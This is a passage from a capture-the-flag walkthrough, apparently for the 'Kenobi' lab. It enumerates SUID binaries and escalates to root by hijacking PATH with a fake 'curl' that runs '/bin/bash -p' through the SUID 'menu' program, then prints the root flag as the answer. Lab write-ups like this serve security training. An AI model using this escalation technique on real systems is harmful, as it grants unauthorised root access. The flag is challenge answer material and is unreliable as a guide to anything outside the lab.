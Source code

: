 ```bash
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```
### Run the binary, how many options appear?
```bash
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```
**Answer**: `3`
### What is the root flag (/root/root.txt)?
```bash
kenobi@kenobi:~$ export PATH=$HOME:$PATH
kenobi@kenobi:~$ echo "/bin/bash -p" > curl
kenobi@kenobi:~$ chmod +x curl
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:~# cat /root/root.txt
177b3cd8562289f37382721c28381f02
```
**Answer**: `177b3cd8562289f37382721c28381f02`